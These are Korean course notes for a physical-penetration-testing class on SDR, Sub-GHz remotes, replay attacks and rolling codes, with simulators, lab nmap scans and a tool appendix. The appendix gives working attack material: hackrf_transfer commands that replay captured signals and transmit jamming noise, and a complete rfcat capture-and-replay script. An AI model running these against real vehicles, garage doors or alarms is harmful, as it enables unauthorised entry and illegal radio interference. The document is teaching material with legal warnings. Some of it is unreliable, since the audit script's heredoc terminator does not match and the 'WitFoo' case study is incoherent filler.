

# Week 09: RF 해킹 — SDR, Sub-GHz, 리플레이 공격

## 학습 목표
- SDR(Software Defined Radio)의 개념과 물리 보안에서의 활용을 이해한다
- Sub-GHz 무선 통신의 원리와 보안 취약점을 분석한다
- 리플레이 공격(Replay Attack)의 원리와 실행 방법을 학습한다
- 롤링 코드 vs 고정 코드의 차이와 각각의 취약점을 이해한다
- Flipper Zero의 Sub-GHz 기능을 분석한다
- RF 보안 강화 방안을 제시할 수 있다

## 전제 조건
- Week 01-08 이수
- 기본 무선 통신 개념
- 주파수/변조 기초 이해

## 강의 시간 배분 (3시간)

| 시간 | 내용 | 유형 |
|------|------|------|
| 0:00-0:40 | SDR 개론과 무선 보안 | 강의 |
| 0:40-1:10 | Sub-GHz 통신과 프로토콜 | 강의 |
| 1:10-1:20 | 휴식 | - |
| 1:20-2:00 | 리플레이 공격과 롤링 코드 | 강의/데모 |
| 2:00-2:40 | 실습: RF 신호 분석 시뮬레이션 | 실습 |
| 2:40-2:50 | 휴식 | - |
| 2:50-3:20 | 실습: 리플레이 공격 시뮬레이션 | 실습 |
| 3:20-3:40 | RF 보안 대책 + 퀴즈 + 과제 | 토론/퀴즈 |

---

# Part 1: RF 해킹 이론

## 1.1 SDR (Software Defined Radio)

SDR은 하드웨어 대신 소프트웨어로 무선 통신을 처리하는 라디오 시스템이다. 기존에 고가의 전용 장비가 필요했던 무선 분석을 저렴하게 수행할 수 있다.

### SDR의 구조

```
┌─────────┐    ┌──────────┐    ┌──────────────┐
│ Antenna │───►│ SDR HW   │───►│ Software     │
│ (안테나) │    │ (RTL-SDR)│    │ (GNU Radio)  │
│         │    │ ADC/DAC  │    │ DSP, Decode  │
└─────────┘    └──────────┘    └──────────────┘

전통적 라디오: 하드웨어 = 주파수 고정
SDR: 소프트웨어 = 주파수 자유롭게 변경
```

### 주요 SDR 하드웨어

| 장치 | 주파수 범위 | TX/RX | 가격 | 용도 |
|------|-----------|-------|------|------|
| RTL-SDR | 24-1766 MHz | RX only | $25 | 수신/분석 |
| HackRF One | 1-6000 MHz | TX+RX | $300 | 송수신 |
| YARD Stick One | Sub-GHz | TX+RX | $100 | Sub-GHz 전용 |
| Flipper Zero | Sub-GHz + RFID | TX+RX | $170 | 멀티 도구 |
| LimeSDR | 100kHz-3.8GHz | TX+RX | $300 | 고급 연구 |
| bladeRF | 300MHz-3.8GHz | TX+RX | $400 | 고급 연구 |

## 1.2 Sub-GHz 무선 통신

Sub-GHz는 1GHz 이하의 주파수 대역을 사용하는 무선 통신으로, 물리 보안에서 널리 사용된다.

### Sub-GHz 사용 장치

```
Sub-GHz 사용 장치 분류:
│
├── 차량 보안
│   ├── 차 리모컨 (315/433 MHz)
│   ├── 차고 도어 오프너
│   └── 타이어 공기압 센서 (TPMS)
│
├── 건물 보안
│   ├── 무선 도어락 (433/868 MHz)
│   ├── 무선 알람 시스템
│   ├── 무선 초인종
│   └── 전동 셔터/블라인드
│
├── IoT 장치
│   ├── 스마트 온도조절기
│   ├── 무선 센서 네트워크
│   ├── 스마트 미터
│   └── 무선 날씨 관측소
│
└── 산업용
    ├── 크레인/중장비 리모컨
    ├── 무선 릴레이
    └── SCADA 무선 센서
```

### Sub-GHz 주파수 대역

| 주파수 | 지역 | 일반적 용도 |
|--------|------|------------|
| 315 MHz | 북미 | 차 리모컨, 차고 도어 |
| 433.92 MHz | 유럽/아시아 | 범용 리모컨, IoT |
| 868 MHz | 유럽 | LoRa, 스마트 미터 |
| 915 MHz | 북미 | LoRa, ISM |

## 1.3 리플레이 공격 (Replay Attack)

리플레이 공격은 정상적인 무선 신호를 캡처하여 나중에 재전송하는 공격이다.

### 고정 코드 (Fixed Code) 시스템

```
고정 코드 시스템:
├── 리모컨이 항상 같은 코드 전송
├── 공격:
│   1. [리모컨] ──신호──► [수신기]: 코드 "ABC123"
│   2. [공격자]가 신호 캡처: "ABC123"
│   3. [공격자] ──재전송──► [수신기]: 코드 "ABC123"
│   4. 수신기: 유효한 코드! → 문 열림
│
├── 취약한 장치:
│   ├── 구형 차고 도어
│   ├── 저가 무선 초인종
│   └── 일부 산업용 리모컨
│
└── 결과: 단순 캡처+재전송으로 공격 성공
```

### 롤링 코드 (Rolling Code) 시스템

```
롤링 코드 시스템 (KeeLoq 등):
├── 매번 다른 코드 전송
├── 리모컨과 수신기가 동기화된 카운터 유지
│
├── 정상 동작:
│   1회: 코드 "A1B2C3" → 유효 (카운터 +1)
│   2회: 코드 "D4E5F6" → 유효 (카운터 +1)
│   3회: 코드 "G7H8I9" → 유효 (카운터 +1)
│
├── 재전송 공격 실패:
│   재전송: 코드 "A1B2C3" → 무효! (카운터 이미 지남)
│
├── RollJam 공격 (고급):
│   1. 신호 1 캡처 + 재밍 (수신기에 도달 못함)
│   2. 사용자가 다시 누름
│   3. 신호 2 캡처 + 재밍
│   4. 신호 1 재전송 → 수신기에 전달 (문 열림)
│   5. 신호 2는 아직 미사용 → 나중에 사용 가능
│
└── KeeLoq 암호화 취약점 (2008년 해독)
```

## 1.4 RF 공격 도구와 기법

### Flipper Zero Sub-GHz

```
Flipper Zero Sub-GHz 기능:
├── 주파수: 300-928 MHz
├── 변조: AM, FM, OOK, FSK, GFSK
├── 기능:
│   ├── Read: 신호 수신 및 디코딩
│   ├── Read RAW: 원시 신호 캡처
│   ├── Save: 신호 저장
│   ├── Emulate: 저장된 신호 재전송
│   └── Add Manually: 수동 코드 입력
│
├── 지원 프로토콜:
│   ├── Princeton
│   ├── KeeLoq
│   ├── Nice FLO/FLOR
│   ├── CAME
│   ├── Linear
│   └── 기타 다수
│
└── 제한: 롤링 코드는 캡처만 (재전송은 효과 제한적)
```

---

# Part 2: 실습

## 2.1 RF 신호 분석 시뮬레이션

```bash
# attacker VM에서 실행
ssh ccc@10.20.30.201

# RF 신호 분석 시뮬레이터
cat << 'RF_SIM' > /tmp/rf_signal_sim.py
#!/usr/bin/env python3
"""
RF 신호 분석 시뮬레이터
SDR 없이 RF 공격 개념을 학습
"""
import random
import hashlib
import time

class RFSignalSimulator:
    def __init__(self):
        self.captured_signals = []
    
    def generate_fixed_code(self, device_id):
        """고정 코드 생성"""
        code = hashlib.md5(device_id.encode()).hexdigest()[:8].upper()
        return code
    
    def generate_rolling_code(self, device_id, counter):
        """롤링 코드 생성 (KeeLoq 시뮬레이션)"""
        data = f"{device_id}:{counter}"
        code = hashlib.sha256(data.encode()).hexdigest()[:8].upper()
        return code
    
    def capture_signal(self, frequency, signal_data):
        """신호 캡처"""
        entry = {
            "freq": frequency,
            "data": signal_data,
            "timestamp": time.time(),
            "modulation": "OOK" if frequency < 500 else "FSK"
        }
        self.captured_signals.append(entry)
        return entry
    
    def replay_signal(self, signal):
        """신호 재전송"""
        return signal

# 시뮬레이션 실행
sim = RFSignalSimulator()

print("=" * 60)
print("  RF Signal Analysis Simulator")
print("=" * 60)

# 1. 고정 코드 장치 시뮬레이션
print("\n[1] Fixed Code Device (Garage Door)")
print("-" * 40)
garage_code = sim.generate_fixed_code("GARAGE-001")
print(f"  Device: Garage Door Opener")
print(f"  Frequency: 433.92 MHz")
print(f"  Modulation: OOK (On-Off Keying)")
print(f"  Code: {garage_code}")
print(f"  Press 1: Code = {garage_code}")
print(f"  Press 2: Code = {garage_code}  (same!)")
print(f"  Press 3: Code = {garage_code}  (same!)")
print(f"  -> VULNERABLE to replay attack!")

# 2. 롤링 코드 장치 시뮬레이션
print(f"\n[2] Rolling Code Device (Car Remote)")
print("-" * 40)
counter = 1000
for i in range(5):
    code = sim.generate_rolling_code("CAR-001", counter + i)
    print(f"  Press {i+1}: Counter={counter+i}, Code={code}")
print(f"  -> Each press generates different code")
print(f"  -> Simple replay FAILS")

# 3. 신호 캡처 시뮬레이션
print(f"\n[3] Signal Capture Simulation")
print("-" * 40)
captured = sim.capture_signal(433.92, garage_code)
print(f"  Captured at {captured['freq']} MHz")
print(f"  Data: {captured['data']}")
print(f"  Modulation: {captured['modulation']}")

# 4. 리플레이 공격
print(f"\n[4] Replay Attack")
print("-" * 40)
print(f"  Fixed code replay: {garage_code} -> SUCCESS (door opens)")
rolling = sim.generate_rolling_code("CAR-001", 1000)
print(f"  Rolling code replay: {rolling} -> FAIL (counter already passed)")

# 5. RollJam 시뮬레이션
print(f"\n[5] RollJam Attack Simulation")
print("-" * 40)
c1 = sim.generate_rolling_code("CAR-001", 1005)
c2 = sim.generate_rolling_code("CAR-001", 1006)
print(f"  Step 1: Jam + Capture code1: {c1}")
print(f"  Step 2: User presses again")
print(f"  Step 3: Jam + Capture code2: {c2}")
print(f"  Step 4: Replay code1 -> SUCCESS (car unlocks)")
print(f"  Step 5: code2 stored for later use")
RF_SIM

python3 /tmp/rf_signal_sim.py
```

## 2.2 Sub-GHz 프로토콜 분석

```bash
# Sub-GHz 프로토콜 분석 시뮬레이션
cat << 'PROTO' > /tmp/subghz_protocol.py
#!/usr/bin/env python3
"""
Sub-GHz 프로토콜 분석기
일반적인 무선 프로토콜의 구조를 학습
"""

protocols = {
    "Princeton": {
        "frequency": "433.92 MHz",
        "modulation": "OOK",
        "bit_time": "350us",
        "code_length": "24 bits",
        "structure": "Address(20bit) + Data(4bit)",
        "security": "None (fixed code)",
        "devices": "저가 리모컨, 무선 초인종",
        "vulnerability": "Simple replay attack"
    },
    "KeeLoq": {
        "frequency": "433.92 MHz / 315 MHz",
        "modulation": "OOK",
        "bit_time": "400us",
        "code_length": "66 bits",
        "structure": "Encrypted(32bit) + Serial(28bit) + Button(4bit) + Status(2bit)",
        "security": "Rolling code (NXP proprietary)",
        "devices": "차 리모컨, 차고 도어 (Chamberlain, LiftMaster)",
        "vulnerability": "RollJam, key recovery (2008)"
    },
    "Nice FLO": {
        "frequency": "433.92 MHz",
        "modulation": "OOK",
        "bit_time": "700us",
        "code_length": "12 bits",
        "structure": "Code(12bit)",
        "security": "None (fixed code, 4096 combinations)",
        "devices": "게이트, 차고 도어 (유럽)",
        "vulnerability": "Brute force (4096 codes in ~20min)"
    },
    "Nice FLOR": {
        "frequency": "433.92 MHz",
        "modulation": "OOK",
        "bit_time": "700us",
        "code_length": "52 bits",
        "structure": "Encrypted rolling code",
        "security": "Rolling code (Nice proprietary)",
        "devices": "게이트, 차고 도어 (유럽, 신형)",
        "vulnerability": "Limited (rolling code)"
    },
}

print("=" * 70)
print("  Sub-GHz Protocol Analyzer")
print("=" * 70)

for name, info in protocols.items():
    print(f"\n{'─' * 70}")
    print(f"  Protocol: {name}")
    print(f"{'─' * 70}")
    for key, value in info.items():
        print(f"    {key:15s}: {value}")
    
    # 보안 등급
    if "None" in info["security"]:
        print(f"    {'RISK':15s}: [CRITICAL] Easily exploitable")
    elif "Rolling" in info["security"]:
        print(f"    {'RISK':15s}: [MEDIUM] Rolling code, but advanced attacks exist")

print(f"\n{'=' * 70}")
print("  Summary: Fixed code systems are CRITICAL risk")
print("  Recommendation: Upgrade to rolling code + encryption")
print(f"{'=' * 70}")
PROTO

python3 /tmp/subghz_protocol.py
```

## 2.3 네트워크 기반 RF 장치 탐색

```bash
# 네트워크에 연결된 RF 관련 장치 탐색
echo "=== RF 장치 네트워크 탐색 ==="

# IoT 장치 관련 포트 스캔
echo "[1] IoT/RF 관련 포트 스캔:"
nmap -sV -p 80,443,1883,5683,8080,8883 10.20.30.0/24 2>/dev/null | grep -E "open|Host"
echo ""

# MQTT 포트 (IoT 통신) 확인
echo "[2] MQTT 서비스 (IoT 통신) 확인:"
nmap -sV -p 1883 10.20.30.0/24 2>/dev/null | grep "1883"
echo ""

# UPnP/SSDP 탐색
echo "[3] UPnP/SSDP 장치 탐색:"
nmap -sU -p 1900 --script upnp-info 10.20.30.0/24 2>/dev/null | grep -A3 "upnp"
echo ""

echo "[4] RF 보안 권고사항:"
echo "  - 고정 코드 장치 → 롤링 코드로 교체"
echo "  - IoT 장치 기본 비밀번호 변경"
echo "  - RF 장치 펌웨어 최신 유지"
echo "  - 불필요한 무선 장치 제거"
```

## 2.4 RF 보안 감사 보고서

```bash
# RF 보안 감사 자동화
cat << 'RF_AUDIT' > /tmp/rf_audit.sh
#!/bin/bash
echo "=== RF 보안 감사 보고서 ==="
echo "날짜: $(date)"
echo ""

echo "[1. 네트워크 내 IoT 장치]"
nmap -sV --top-ports 50 10.20.30.0/24 2>/dev/null | grep "open" | head -15
echo ""

echo "[2. RF 취약점 체크리스트]"
echo "  □ 고정 코드 사용 장치 목록화"
echo "  □ 롤링 코드 장치의 펌웨어 버전 확인"
echo "  □ Sub-GHz 장치의 암호화 수준 확인"
echo "  □ 무선 알람 시스템 재밍 방어 여부"
echo "  □ IoT 장치 기본 크리덴셜 변경 여부"
echo ""

echo "[3. 위험 평가]"
echo "  고정 코드 장치: [높음] — 즉시 교체"
echo "  KeeLoq v1 장치: [중간] — 업그레이드 계획"
echo "  AES 암호화 장치: [낮음] — 키 관리 강화"
echo ""

echo "[4. 권고사항]"
echo "  1. 모든 고정 코드 장치를 AES 암호화 장치로 교체"
echo "  2. RF 재밍 탐지 시스템 도입"
echo "  3. Sub-GHz 대역 모니터링 시스템 구축"
echo "  4. IoT 장치 전용 네트워크 세그먼트 분리"
RFAUDIT

bash /tmp/rf_audit.sh
```

---

## 과제

### 과제 1: RF 프로토콜 분석 (개인)
5가지 Sub-GHz 프로토콜을 조사하고, 각각의 보안 수준을 평가하라.

### 과제 2: RF 보안 시나리오 (팀)
가상의 건물(사무실)에 설치된 RF 기반 보안 장치 목록을 작성하고, 각 장치에 대한 공격 시나리오와 방어 방안을 제시하라.

### 과제 3: SDR 도구 비교 (개인)
RTL-SDR, HackRF, YARD Stick One, Flipper Zero를 기능, 가격, 용도 관점에서 비교 분석하라.

---

## 실제 사례 (WitFoo Precinct 6 — 물리 ↔ 사이버 결합)

> 출처: WitFoo Precinct 6 Cybersecurity Dataset (Apache 2.0)
> 본 lecture *물리 ↔ 사이버 결합* 학습 항목 매칭.

### 물리 ↔ 사이버 결합 의 dataset 흔적 — "physical + ATT&CK"

dataset 의 정상 운영에서 *physical + ATT&CK* 신호의 baseline 을 알아두면, *물리 ↔ 사이버 결합* 시도 시 발생하는 anomaly 를 정량으로 탐지할 수 있다. 핵심 정량 지표는 — 건물 침투 → IT 침해.



### Case 1: dataset 정량 지표

| 항목 | 값 |
|---|---|
| 핵심 신호 | physical + ATT&CK |
| 정량 baseline | 건물 침투 → IT 침해 |
| 학습 매핑 | Initial Access via physical |

**자세한 해석**: Initial Access via physical. 이 차이를 정량으로 측정해야 *공격 시도와 정상 운영의 구분* 이 가능. 학생이 baseline 숫자를 외워두면 — 운영 환경에서 anomaly 를 즉시 탐지할 수 있다.

### Case 2: 실전 적용 시나리오

| 단계 | dataset 활용 |
|---|---|
| 시도 식별 | physical + ATT&CK 의 spike |
| 정상 vs 이상 | baseline 대비 비율 |
| 룰 작성 | Suricata / Wazuh / Sigma |
| 검증 | dataset 재실행 |

**자세한 해석**: 운영 환경 룰 작성은 — *baseline 측정 → 임계 결정 → 룰 작성 → dataset 검증* 의 4 단계. 한 단계라도 빠지면 false positive 폭증.

### 이 사례에서 학생이 배워야 할 3가지

1. **물리 ↔ 사이버 결합 = physical + ATT&CK 의 anomaly** — 정량 신호로 탐지.
2. **baseline 숫자 외우기** — 건물 침투 → IT 침해.
3. **4 단계 룰 작성** — 측정 → 임계 → 룰 → 검증.

**학생 액션**: scenario design.


---

## 부록: 학습 OSS 도구 매트릭스 (Course16 Physical Pentest — Week 09 RF·SDR·Sub-GHz·리플레이)

> 이 부록은 본문 Part 2 의 4 lab (RF 신호 분석 시뮬 / Sub-GHz 프로토콜 분석 /
> RF 장치 네트워크 탐색 / RF 보안 감사) 의 Python 시뮬을 *실제 OSS SDR
> 도구* 로 매핑한다. SDR 하드웨어 (RTL-SDR / HackRF / Flipper Zero) 가 없는
> VM 환경에서도 *기존 캡처 파일 (.cu8 / .complex16 / .sub) 분석* + *GNU Radio
> Companion flowgraph 시뮬* + *rtl_433 사전 정의 200+ 프로토콜 decode* 로
> 학습 가능. 모든 RF 송신 (TX) 행위는 한국 전파법 §29·§80 적용 — *허가된
> 차폐실 또는 본인 lab 환경* 한정.

### lab step → 도구 매핑 표

| step | 본문 위치 | 학습 항목 | 본문 명령 (시뮬) | 핵심 OSS 도구 (실 명령) | 도구 옵션 |
|------|----------|----------|----------------|-------------------------|-----------|
| s1 | 2.1 [1] | 고정 코드 캡처 | `hashlib.md5().hexdigest()[:8]` | rtl_433 / urh / rtl_sdr | `rtl_433 -f 433.92M -A` |
| s2 | 2.1 [2] | 롤링 코드 모방 | `hashlib.sha256()` | gnuradio + KeeloqLib / urh | URH GUI decode |
| s3 | 2.1 [3] | 신호 캡처 | Python dict | rtl_sdr / hackrf_transfer | `rtl_sdr -f 433.92M -s 1.024M -g 49 cap.cu8` |
| s4 | 2.1 [4] | 리플레이 송신 | `return signal` | hackrf_transfer / urh / rfcat | `hackrf_transfer -t cap.complex16 -f 433920000` |
| s5 | 2.1 [5] | RollJam 시뮬 | Python `print` | URH (jamming + capture) / hackrf | URH "Jam" mode |
| s6 | 2.2 | 프로토콜 식별 | Python dict | rtl_433 (200+ 프로토콜) / URH auto-detect | `rtl_433 -A -f 433.92M` |
| s7 | 2.2 | 프로토콜 디코드 | dict 출력 | URH demodulation / inspectrum / sigrok | URH bit detection |
| s8 | 2.3 [1-2] | IoT 포트 스캔 | `nmap -p 1883,5683,8080,8883` | nmap / mqtt-spy / coap-client | `nmap --script mqtt-subscribe` |
| s9 | 2.3 [3] | UPnP / SSDP 탐색 | `nmap --script upnp-info` | upnpscan / miranda-upnp / nmap NSE | `miranda -h <ip>` |
| s10 | 2.4 | 보안 감사 | bash echo | rtl_433 + Wireshark + IoT inspector | rtl_433 → MQTT → SIEM |
| s11 | 1.4 | Flipper Zero TX | (개념) | qFlipper / flipperzero-protobuf | qFlipper CLI subghz tx |
| s12 | 1.4 | jamming | (개념) | hackrf_transfer noise / URH jam | (lab 한정) |
| s13 | 1.3 | KeeLoq 키 복구 | (개념) | KeeLoqLib / openkeeloq | 학술 PoC (2008 Eisenbarth) |

### RF 도구 카테고리 매트릭스

| 카테고리 | 사례 | 대표 도구 (OSS) | 비고 |
|---------|------|----------------|------|
| **하드웨어 — RX only** | $25 RTL-SDR (RTL2832U) | rtl-sdr / SoapySDR | 24-1766MHz, 학습 표준 |
| **하드웨어 — TX/RX** | $300 HackRF One | hackrf-tools / hackrf_transfer | 1MHz-6GHz, half-duplex |
| **하드웨어 — Sub-GHz 전용** | $100 YARD Stick One | rfcat (Python) | TX/RX 300-928MHz |
| **하드웨어 — 멀티** | $170 Flipper Zero | qFlipper / flipperzero-cli | Sub-GHz + RFID + IR + iButton |
| **하드웨어 — 광대역** | LimeSDR / bladeRF | SoapySDR / GNU Radio | 100kHz-3.8GHz, full-duplex |
| **DSP framework** | block-graph 신호처리 | GNU Radio (GRC) / GNU Radio Companion | flowgraph 표준 |
| **실시간 receiver (GUI)** | spectrum + audio | gqrx / SDR# (Win) / SDR++ | 실시간 demodulation |
| **자동 protocol decode** | 200+ pre-defined | rtl_433 (Sub-GHz 표준) | 차/날씨/IoT 자동 |
| **수동 protocol decode** | 시각 + bit detect | URH (Universal Radio Hacker) / inspectrum | GUI 분석 |
| **logic / pulse 분석** | 변조 + bit 측정 | sigrok-cli / pulseview | logic analyzer |
| **Python RF lib** | DIY decode 작성 | rfcat / SoapySDR / PyRTLSDR | 스크립트 |
| **KeeLoq 분석** | 차 리모컨 학습 | KeeloqLib / openkeeloq / kfd-decode | 학술 PoC |
| **IoT — MQTT** | broker 통신 | mosquitto-clients / MQTT-PWN / mqtt-spy | publish/subscribe |
| **IoT — CoAP** | RESTful UDP IoT | coap-client / aiocoap / Californium | constrained device |
| **IoT — UPnP** | local discovery | upnpscan / miranda / nmap NSE | UPnP exploit |
| **IoT — Z-Wave** | smart home | OpenZWave / Z-Wave-JS | 868/908MHz |
| **IoT — Zigbee** | mesh sensor | bumblebee / killerbee / wireshark Zigbee | 2.4GHz |
| **방어 — RF IDS** | 변조 / 재밍 탐지 | wifi_pumpkin (extended) / softrock detect | 학습용 |
| **방어 — 펌웨어 patch** | 롤링 코드 update | OEM 만 가능 | 차/도어 OEM |

### 학생 환경 준비

```bash
# attacker VM (192.168.0.112) — SDR 도구 (USB passthrough 가정)
sudo apt-get update
sudo apt-get install -y \
   rtl-sdr soapysdr-tools \
   hackrf libhackrf-dev gr-osmosdr \
   gnuradio gnuradio-dev gr-osmosdr \
   gqrx-sdr \
   sigrok-cli pulseview \
   inspectrum \
   wireshark-common tshark \
   mosquitto-clients \
   python3-pip python3-numpy python3-scipy

# rtl_433 (200+ 프로토콜 자동 decode)
git clone https://github.com/merbanan/rtl_433 /tmp/rtl_433
cd /tmp/rtl_433 && mkdir build && cd build && cmake .. && make -j$(nproc)
sudo make install

# URH (Universal Radio Hacker — GUI)
pip3 install --user urh

# rfcat — YARD Stick One Python
pip3 install --user rfcat

# IoT 도구
pip3 install --user paho-mqtt aiocoap

# Flipper Zero CLI (TUI 통신)
git clone https://github.com/flipperdevices/flipperzero-protobuf-py /tmp/flipper-py
cd /tmp/flipper-py && pip3 install --user .

# UPnP scan
pip3 install --user upnpy
git clone https://github.com/0x90/miranda-upnp /tmp/miranda
cd /tmp/miranda && python3 setup.py install --user

# 검증
rtl_test -t 2>&1 | head -5         # RTL-SDR 인식
rtl_433 -V 2>&1 | head -3
hackrf_info 2>&1 | head -3         # HackRF 인식
gqrx --version 2>&1 | head -1
gnuradio-config-info --version
urh --version 2>&1 | head -1
```

> **TX 의무**: hackrf_transfer / rfcat / Flipper Zero 의 TX 모드는 한국
> 전파법 §29 (혼신금지) + §80 (무허가 무선국 개설) 위반 가능. *RF 차폐실*
> 또는 *본인 자산* (자기 차고 도어 + 자기 차 리모컨) 외 절대 송신 금지.
> RX (rtl_sdr / gqrx 등) 는 *수신 전용* 이므로 광범위 학습 가능.

### 핵심 도구별 상세 사용법

#### 도구 1: rtl_sdr + rtl_433 — 433.92MHz 신호 자동 decode (s1, s3, s6)

본문 phase 1-2 의 *고정 코드 / 롤링 코드 / 프로토콜 식별* 의 모든 자동
처리. RTL-SDR + rtl_433 은 *200+ 사전 정의 프로토콜* 을 자동 인식.

```bash
# 1. RTL-SDR 인식 + 신호 강도 측정
rtl_test -t
# Found 1 device(s):
#  0:  Realtek, RTL2838UHIDIR, SN: 00000001
# Using device 0: Generic RTL2832U OEM
# Sampling at 2048000 S/s
# Tuner gain: 0.0 dB     ... 49.6 dB
# PASS

# 2. raw IQ 캡처 (433.92MHz, 10초)
rtl_sdr -f 433.92e6 -s 1.024e6 -g 49 -n 10240000 /tmp/cap.cu8
# 결과: cap.cu8 (10초 × 2.048Msps × 2바이트 = 40MB unsigned 8-bit IQ)

# 3. rtl_433 자동 decode (모든 프로토콜)
rtl_433 -f 433.92M -A -F json:/tmp/rtl433.jsonl
# 출력 (실시간):
# {"time": "2026-05-03 19:14:22", "model": "Acurite-Tower",
#  "id": 1234, "channel": "A", "battery_ok": 1,
#  "temperature_C": 23.4, "humidity": 45}
# {"time": "...", "model": "PCM_GarageDoor",
#  "id": "ABCDEF", "code": "100100110011..."}

# 4. 특정 프로토콜만 (Princeton, KeeLoq 등)
rtl_433 -f 433.92M -R 0 \
   -R 1   `# Acurite-Tower` \
   -R 18  `# Acurite-606TX` \
   -R 38  `# X10 Protocol` \
   -R 100 `# Generic Garage Door`

# 5. 캡처 파일 분석 (oscillator 안 켜고 사후 분석)
rtl_433 -r /tmp/cap.cu8 -A -F json:/tmp/decoded.jsonl
# 결과: decoded.jsonl 의 model 필드로 프로토콜 식별

# 6. 통계 — 발견된 프로토콜 분포
jq -r '.model' /tmp/decoded.jsonl | sort | uniq -c | sort -rn
#  142 Acurite-Tower
#   38 X10
#   12 Hideki-Wind
#    3 Generic_Remote
```

#### 도구 2: GNU Radio Companion (GRC) — 실 SDR flowgraph 학습 (s2, s5)

본문 *Antenna → SDR HW → Software DSP* 의 실제 flowgraph 작성. GUI block-graph
+ Python 자동 생성 + 실시간 시각화.

```bash
# 1. GRC 시작 (GUI)
gnuradio-companion &

# 2. 표준 flowgraph 작성 (CLI 로 생성 — gr-modtool)
mkdir -p /tmp/grc-lab
cat << 'EOF' > /tmp/grc-lab/rtlsdr_oook_demod.grc
# (GRC XML — GUI 로 생성. 핵심 block 시퀀스:)
# RTL-SDR Source (1.024 Msps, 433.92 MHz)
#   ↓
# Low Pass Filter (cutoff 100kHz)
#   ↓
# Complex to Magnitude (envelope detection)
#   ↓
# Threshold Decoder (binary slicer)
#   ↓
# File Sink (/tmp/bits.bin)
#   ↓
# QT Time Sink (시각화)
EOF

# 3. CLI Python (GRC 없이 동일 flowgraph)
cat << 'PY' > /tmp/grc-lab/ook_demod.py
#!/usr/bin/env python3
"""OOK 복조 — RTL-SDR → magnitude → threshold → bits"""
from gnuradio import gr, blocks, analog, filter, fft
import osmosdr, time

class OOKDemod(gr.top_block):
    def __init__(self, freq=433.92e6, samp_rate=1.024e6):
        gr.top_block.__init__(self)
        # source
        src = osmosdr.source(args="numchan=1")
        src.set_sample_rate(samp_rate)
        src.set_center_freq(freq)
        src.set_gain(40)
        # LPF
        lpf = filter.fir_filter_ccc(1,
                filter.firdes.low_pass(1, samp_rate, 100e3, 50e3))
        # magnitude (OOK)
        mag = blocks.complex_to_mag(1)
        # threshold
        thr = blocks.threshold_ff(0.05, 0.05, 0)
        f2c = blocks.float_to_char(1, 1)
        sink = blocks.file_sink(1, '/tmp/bits.bin')
        sink.set_unbuffered(True)
        # connect
        self.connect(src, lpf, mag, thr, f2c, sink)

if __name__ == '__main__':
    tb = OOKDemod()
    tb.start()
    time.sleep(10)
    tb.stop()
PY

python3 /tmp/grc-lab/ook_demod.py
xxd /tmp/bits.bin | head -5

# 4. spectrum 시각화 (gqrx — GRC 기반 GUI)
gqrx
# 433.920 MHz 주파수 입력 → Bandwidth 200kHz → Demod AM/USB → 신호 확인
```

#### 도구 3: URH (Universal Radio Hacker) — 캡처 → 자동 protocol decode (s4, s7)

GUI 기반 통합 도구 — 캡처 → demodulation 자동 추정 → bit 검출 → encoding
판단 → 재전송. 본문 시뮬의 *모든* 단계를 한 GUI 에서 수행.

```bash
# 1. URH 시작
urh &

# 2. CLI 모드 (스크립트화)
urh_cli --help

# 3. 기존 캡처 파일 → bit detect (자동)
urh_cli -d "RTL-SDR" -f 433.92M -s 1.024M \
   --rx_file /tmp/cap.cu8 \
   --action analyze \
   --modulation ASK \
   --output /tmp/urh-bits.txt
cat /tmp/urh-bits.txt | head -20
# 1010101011001010101010100110011001010101010101100101010101010
# (OOK 복조된 bit stream)

# 4. RollJam 시뮬 — 신호 1 캡처 + 송신 jamming
# (URH GUI: Send → set TX freq → Add noise → 송신)
# 실 jamming 은 lab 차폐실 한정

# 5. Flipper Zero .sub 파일 → URH 변환
# (Flipper 의 SubGHz Read RAW 가 .sub 파일 생성)
python3 -c "
import sys
# .sub → bit stream 변환 예 (간단)
data = open('/tmp/garage.sub').read()
print('protocol:', [l for l in data.split('\n') if 'Protocol' in l])
print('frequency:', [l for l in data.split('\n') if 'Frequency' in l])
"
```

#### 도구 4: hackrf_transfer — 캡처 + 송신 (lab 한정, s4)

HackRF 는 *송신 가능* — RTL-SDR 보다 강력. 단 송신은 RF 격리 의무.

```bash
# 1. HackRF 인식
hackrf_info
# Found HackRF
# Index 0
# Serial number: 0000000000000001
# Board ID Number: 2 (HackRF One)

# 2. RX 캡처 (10초)
hackrf_transfer -r /tmp/hrf-cap.complex16 \
   -f 433920000 -s 8000000 -g 40 -l 32 \
   -n 80000000

# 3. 캡처 파일 분석 (URH 또는 inspectrum)
inspectrum /tmp/hrf-cap.complex16 -r 8000000

# 4. TX 재전송 (lab 만 — 본인 차고 도어)
hackrf_transfer -t /tmp/hrf-cap.complex16 \
   -f 433920000 -s 8000000 -x 30 -l 32

# 5. CW (continuous wave) — jamming 시연 (RF 차폐실 한정)
hackrf_transfer -f 433920000 -s 8000000 -t /dev/zero -x 47 -l 47
# (백색 잡음 송신 — TPMS / 차고 도어 jamming 효과)
# Ctrl+C 즉시 종료 — 외부 누설 시 전파법 §29 위반
```

#### 도구 5: rfcat — YARD Stick One Python 자동화 (s4)

YARD Stick One 의 Python 인터페이스. fixed code / rolling code 캡처 + 송신
자동화.

```python
#!/usr/bin/env python3
# /tmp/rfcat-replay.py — YARD Stick One 으로 fixed code 캡처 + replay
from rflib import *
import time

d = RfCat()
d.setFreq(433920000)              # 433.92 MHz
d.setMdmModulation(MOD_ASK_OOK)   # OOK
d.setMdmDRate(2400)               # 2.4 kbps
d.setMdmChanBW(115000)
d.setMdmSyncMode(SYNC_MODE_NO_PREAMBLE)
d.setMaxPower()

# 1. RX 30초
print("[*] Listening 30s...")
captured = []
end = time.time() + 30
while time.time() < end:
    try:
        pkt, ts = d.RFrecv(timeout=1000)
        captured.append(pkt)
        print(f"[+] CAPTURED ({len(pkt)} bytes): {pkt.hex()}")
    except Exception:
        pass

# 2. TX (lab 만)
if captured:
    pkt = captured[0]
    print(f"\n[*] Replaying first capture (5x)")
    for i in range(5):
        d.RFxmit(pkt)
        time.sleep(0.2)

d.setModeIDLE()
```

#### 도구 6: mosquitto-clients + MQTT-PWN — IoT MQTT 분석 (s8)

